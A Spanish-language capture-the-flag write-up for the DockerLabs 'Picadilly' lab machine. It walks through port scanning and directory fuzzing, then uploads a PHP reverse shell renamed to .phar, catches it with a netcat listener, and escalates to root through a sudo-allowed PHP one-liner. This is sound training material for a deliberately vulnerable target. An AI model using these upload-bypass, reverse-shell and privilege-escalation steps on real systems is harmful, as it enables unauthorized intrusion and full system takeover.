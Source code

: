 # Informe Técnico - Máquina Picadilly (DockerLabs)

**Dificultad:** Fácil

**Objetivos:** Acceso inicial a la máquina, explotación de vulnerabilidades web, escalada de privilegios a root.

---

## 1. Despliegue de la Máquina

Descargamos la máquina vulnerable `picadilly.zip` desde la página oficial de DockerLabs. Para descomprimir el archivo utilizamos el siguiente comando:

```bash
7z e picadilly.zip
```

Luego desplegamos la máquina ejecutando:

```bash
sudo bash auto_deploy.sh picadilly.tar
```

![Logo](/Picadilly/Imagenes/Logo.png)

---
![Inicio del despliegue](/Picadilly/Imagenes/Inicio.jpeg)

Verificamos que la máquina esté activa con un simple `ping`:

```bash
ping -c1 172.17.0.2
```

![Comprobación de conectividad](/Picadilly/Imagenes/Ping.jpeg)

---

## 2. Reconocimiento con Nmap

Realizamos un escaneo completo de puertos con Nmap para identificar servicios activos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Puertos detectados](/Picadilly/Imagenes/Puertos.jpeg)

Después, utilizamos un script personalizado para extraer los puertos abiertos y la IP objetivo:

```bash
extractPorts allPorts.txt
```

Con los puertos relevantes, hacemos un escaneo más detallado para identificar servicios y versiones:

```bash
nmap -sC -sV -p 80,443 172.17.0.2 -oN target.txt
```

![Servicios detectados](/Picadilly/Imagenes/Servicios.jpeg)

---

## 3. Análisis de las Aplicaciones Web

Accedemos a la interfaz web en el puerto **80 (HTTP)** mediante:

```
http://172.17.0.2/
```

En esta página encontramos un archivo visible llamado `backup.txt`.

![Vista del puerto 80](/Picadilly/Imagenes/http.jpeg)
![Contenido de backup.txt](/Picadilly/Imagenes/backup.jpeg)

Este archivo contenía un acertijo cifrado con el método César. Tras descifrarlo, obtuvimos la palabra clave:

```
gcuaetzcba
```

En el archivo también encontramos credenciales:
**Usuario:** mateo
**Contraseña:** hdvbfuadcb

Accedemos al puerto **443 (HTTPS)** en:

```
https://172.17.0.2/
```

Allí se presenta una página con un sistema de publicación de posts y una funcionalidad de subida de archivos (upload).

![Página HTTPS con funcionalidad de Upload](/Picadilly/Imagenes/Pagina.jpeg)

---

## 4. Fuzzing de Directorios

Usamos herramientas de fuerza bruta para buscar rutas ocultas.

Primero con **Gobuster** en el puerto 80:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

El único archivo interesante encontrado fue `backup.txt`.

Probamos también hacer fuzzing dentro de `/backup.txt`, pero sin resultados:

```bash
gobuster dir -u http://172.17.0.2/backup.txt -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

![Resultado de Gobuster](/Picadilly/Imagenes/gobuster.jpeg)

Para el puerto 443 usamos **Wfuzz** debido a problemas con Gobuster:

```bash
wfuzz -c -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 https://172.17.0.2/FUZZ
```

Encontramos que la ruta `/uploads/` estaba habilitada.

![Wfuzz detectando el directorio de subida](/Picadilly/Imagenes/wfuzz.jpeg)
![Directorio /uploads encontrado](/Picadilly/Imagenes/uploads.jpeg)

---

## 5. Obtención de Acceso con Reverse Shell

Dado que existía una opción de subir archivos en la sección de posts, intentamos subir una *reverse shell* en PHP.

El archivo fue descargado desde el repositorio de [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).

Para evitar restricciones de extensiones, renombramos el archivo como `.phar`. Sorprendentemente, el sistema permitía la subida sin restricción.

![Subida de archivo PHP](/Picadilly/Imagenes/post.jpeg)
![Archivo reverse shell subido exitosamente](/Picadilly/Imagenes/revellshe.jpeg)

Colocamos nuestro host en modo escucha con:

```bash
sudo nc -lvnp 443
```

Y accedimos a la shell mediante:

```
https://172.17.0.2/uploads/reverse.phar
```

¡La conexión fue exitosa!

![Shell remota activa](/Picadilly/Imagenes/shell.jpeg)

---

## 6. Escalada de Privilegios

Ya dentro del sistema, buscamos métodos para escalar privilegios.

Primero ejecutamos:

```bash
sudo -l
```

No se encontró nada útil, por lo que nos dirigimos al directorio `/home`, donde confirmamos que el usuario `mateo` existía.

Probamos autenticarnos como `mateo` con la contraseña que encontramos en el archivo `backup.txt`, ahora ya descifrada:

```
su mateo
Contraseña: easycrazy
```

Al entrar como `mateo`, volvimos a revisar sudo:

```bash
sudo -l
```

Salida:

```
(ALL) NOPASSWD: /usr/bin/php
```

Esto nos dio acceso total. Ejecutamos el siguiente comando para obtener una shell como root:

```bash
sudo /usr/bin/php -r 'system("/bin/bash");'
```

![Acceso root conseguido](/Picadilly/Imagenes/root.jpeg)

---

## Conclusión

Esta máquina presenta una ruta de explotación sencilla pero completa: detección de credenciales en un archivo público, un sistema de subida vulnerable sin filtros, y una mala configuración de `sudo` que permite ejecución de comandos como root mediante PHP. Es ideal para entender fallos típicos en seguridad web y escalada de privilegios basada en configuraciones inseguras.


